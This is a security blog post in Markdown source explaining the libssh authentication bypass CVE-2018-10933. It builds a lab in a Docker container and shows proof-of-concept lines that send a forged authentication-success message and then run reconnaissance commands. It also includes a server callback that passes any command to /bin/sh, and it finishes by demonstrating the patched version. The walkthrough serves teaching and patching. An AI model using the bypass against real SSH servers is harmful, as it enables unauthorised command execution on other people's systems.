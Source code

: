 ```yaml
---
slug: libssh-bypass-cve/
title: LibSSH New Vulnerability
date: 2018-10-18
category: attacks
subtitle: New vulnerability on libssh CVE-2018-10933
tags: cybersecurity, vulnerability, pentesting
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330935/blog/libssh-bypass-cve/cover_ad5zp7.webp
alt: Painting a red and blue wall
description: Here, we will explain a vulnerability that allows a remote attacker to bypass authentication by sending a user-authenticated packet to the server.
keywords: Libssh, Security, CVE, Vulnerability, Pentesting, PoC, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/d6YyP28-Ycw
---
```


The new vulnerability in `LibSSH`, tracked as
[CVE-2018-10933](https://www.libssh.org/security/advisories/CVE-2018-10933.txt),
resides on the server code which can enable a client to bypass the
authentication process and create channels without permission. This
affects servers using versions `0.6` and above being used in server
mode.

The bug was discovered by Peter Winter-Smith of NCC Group, it’s like a
`jedi` trick:

- User: `Let me in`

- Server: NO

- User: `I’m authenticated, let me in`

- Server: OK, YOU’RE IN

Why does this happen? Because of the way `LibSSH` checks for
authentication when it receives an `SSH2_MSG_USERAUTH_SUCCESS` message
instead of the `SSH2_MSG_USERAUTH_REQUEST` message. It acts like the
user is already authenticated, so an attacker could bypass the
authentication and execute commands on the server.

## Building the enviroment

How does LibSSH work? It’s a `C` library to implement `SSHv2` protocol
on the client and server side. First, we need to write our server-side
code. We are going to use the sample that `LibSSH` has
(`samplesshd-cb.c`) and modify it for our purposes.

In the `ssh_channel_callbacks_struct` we are going to put the following
line in order to have the `exec` functionality:

**exec request.**

``` C
.channel_exec_request_function = exec_request
```

<div class="imgblock">

![channel-exec](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/channel-exec_nkvv1s.webp)

</div>

Next, add the `exec_request` function, this will take our commands and
execute them on the server:

``` C
static int exec_nopty(const char *command) {
            /* exec the requested command. */
            execl("/bin/sh", "sh", "-c", command, NULL);
            exit(0);

    return SSH_OK;
}

static int exec_request(ssh_session session, ssh_channel channel,
                        const char *command, void *userdata) {

    printf("Allocated exec  \n");
    (void) userdata;
    (void) session;
    (void) channel;

    return exec_nopty(command);
}
```

If you have `LibSSH` with version `0.7.4` you can simply save it,
compile it, and execute it. If not, you can use our method. We are going
to use a `docker` container and install both versions (a vulnerable one
and a patched one) and then, pass our code to the server and run it. The
example files can be downloaded [here](cve201810933.zip).

To build the container, open a `terminal` in the folder of the
`Dockerfile` and run this command:

``` bash
host$ docker build -t fluidattackscve201810933 .
```

This will download all the necessary files and compile all the sources
of `LibSSH`.

Then, to open the container simply run this command:

``` bash
host$ docker run -it -p 2222:2222 fluidattackscve201810933:latest /bin/bash
```

This is going to mirror our port `2222` to the container port `2222` in
order to be able to run our tests. Also, it will open a `bash` terminal
on the container machine where we will run our `LibSSH` server.

## Exploiting the vulnerability

In this case, we are going to use `LibSSH v0.7.4` and test the solution
with `LibSSH v0.7.6`. The `PoC` is on `Python` version `2`, and you can
check its source
[here](https://www.openwall.com/lists/oss-security/2018/10/17/5), but if
you downloaded our files, it’s there as `exploit.py`.

In order to run this `PoC` you will need `paramiko`. You can install it
by running:

``` bash
host$ pip install paramiko
```

In the container, run the following command to start the vulnerable
`LibSSH` server:

``` bash
container$ ./tmp/libssh-0.7.4/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
```

The verbose flag is to see what is sending and receiving our server.

Then, in your machine run the exploit with:

``` bash
host$ python exploit.py
```

If you check your container you can see this:

<div class="imgblock">

![ssh-bypass](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/ssh-bypass_zj8e91.webp)

</div>

When the server is expecting the `SSH2_MSG_USERAUTH_REQUEST`, we are
sending an `SSH2_MSG_USERAUTH_SUCCESS`.

``` python
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
transport._send_message(m)
```

The server accepts it, and we bypassed the authentication. Then, we can
send our commands to the server with:

``` python
cmd_channel.exec_command("whoami; id; ls -la /; ip addr")
```

<div class="imgblock">

![command-exec](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/command-exec_yuqxav.webp)

</div>

## The solution

<div class="imgblock">

![dont-work](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/dont-work_qzntdl.webp)

</div>

The LibSSH version `0.7.6` doesn’t have this vulnerability. We can test
it, too, in our container. We just need to run:

``` bash
container$ ./tmp/libssh-0.7.6/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
```

And on our machine the exploit again:

``` bash
host$ python exploit.py
```

<div class="imgblock">

![no-vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/no-vulnerable_z7vihm.webp)

</div>

What’s happening? We send the `SSH2_MSG_USERAUTH_SUCCESS`. The server
receives it, but it won’t authenticate us because they added a
validation on their code. When the packet is
`SSH2_MSG_USERAUTH_SUCCESS`, then, it checks for the authentication
state. If it is not one of the valid states, it denies the packet.

<div class="imgblock">

![Code on
src/packet.c](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/solution_uaqs60.webp)

<div class="title">

Figure 1. Code on src/packet.c

</div>

</div>

Here you can see the difference between responses for a vulnerable
version and a non-vulnerable one.

<div class="imgblock">

![Vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/vulnerable_mbwn5t.webp)

<div class="title">

Figure 2. Vulnerable

</div>

</div>

<div class="imgblock">

![Non-vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/no-vulnerable_z7vihm.webp)

<div class="title">

Figure 3. Non-vulnerable

</div>

</div>

If you have `LibSSH` in your server, and you are using a server
component, you should install the updated, or patched, versions of
`LibSSH`.
